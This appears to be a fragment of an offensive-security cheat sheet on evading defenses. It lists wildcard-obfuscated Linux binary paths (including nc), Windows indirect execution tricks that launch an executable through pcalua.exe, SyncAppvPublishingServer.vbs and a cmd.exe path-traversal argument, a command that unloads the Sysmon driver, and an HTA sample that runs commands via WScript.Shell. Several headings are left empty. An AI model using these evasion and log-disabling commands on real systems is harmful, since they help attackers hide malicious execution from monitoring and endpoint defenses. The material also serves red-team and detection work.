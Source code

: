 #### Command Line

##### Linux

/usr/bin/p?ng   # This equals /usr/bin/ping
/usr/bin/who*mi # This equals /usr/bin/whoami
/usr/bin/n[c]   # This equals /usr/bin/nc

##### Windows

<https://pentestlab.blog/2020/07/06/indirect-command-execution/>

The forfiles command lets you run a command on or pass arguments to multiple files.

pcalua.exe -a vuln.exe

SyncAppvPublishingServer.vbs "n; Start-Process C:\tmp\pentestlab.exe"

cmd.exe /c "pentestlab.blog /../../../../../../../../../../windows/explorer.exe" /root,C:\tmp\pentestlab.exe
<https://hackingiscool.pl/cmdhijack-command-argument-confusion-with-path-traversal-in-cmd-exe/>

#### Windows Event Log

#### Sysmon

[Fltmc.exe](https://docs.microsoft.com/en-us/windows-hardware/drivers/ifs/development-and-testing-tools#fltmcexe-command) is a system-supplied command line utility for common minifilter driver management operations.

```bash
fltMC.exe unload SysmonDrv
```

#### Signed Binary Proxy Execution

We may need to bypass process and/or signature-based defenses by proxying execution of malicious content with signed binaries.

##### HTML Application

An HTML Application (HTA) is a Microsoft Windows program whose source code consists of HTML, Dynamic HTML, and one or more scripting languages supported by Internet Explorer, such as VBScript or JScript.

```html
<html>
<head>
<HTA:APPLICATION ID="HelloExample">
<script language="jscript">
        var c = "cmd.exe /c calc.exe"; 
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</head>
<body>
<script>self.close();</script>
</body>
</html>
```
